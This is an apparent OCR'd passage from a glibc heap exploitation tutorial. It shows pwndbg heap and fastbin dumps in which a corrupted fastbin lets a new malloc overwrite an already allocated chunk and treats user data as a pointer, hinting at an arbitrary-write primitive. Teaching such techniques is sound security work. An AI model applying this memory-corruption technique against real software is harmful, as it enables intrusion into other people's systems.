 ```Heap_Chunks
0x603050        0x0000000000000000      0x0000000000000000      ................
0x603060        0x0000000000000000      0x0000000000020fa1      ................  <-- Top chunk
```

```fastbins
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x603000 ◂— 0x59595959 /* 'YYYY' */     <--- points to chunkA now even though it's allocated
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

8. malloc(0x28, "Much Win")
  + The Y values are also treated as an address in `fastbins`
```Heap_Chunks
pwndbg> vis

0x603000        0x0000000000000000      0x0000000000000031      ........1.......
0x603010        0x6e6977206863754d      0x0000000000000000      Much win........ <---chunkA is overwritten
0x603020        0x0000000000000000      0x0000000000000000      ................     even though it's 
                                                                                     allocated


0x603030        0x0000000000000000      0x0000000000000031      ........1.......
0x603040        0x000000005a5a5a5a      0x0000000000000000      ZZZZ............
0x603050        0x0000000000000000      0x0000000000000000      ................
0x603060        0x0000000000000000      0x0000000000020fa1      ................         <-- Top chunk

```

```fastbins
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x59595959 <---- 'YYYY' is being treated as an address (what if we gave a valid address instead?)
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```



---------------------------------------------------------------------------------------------------------------


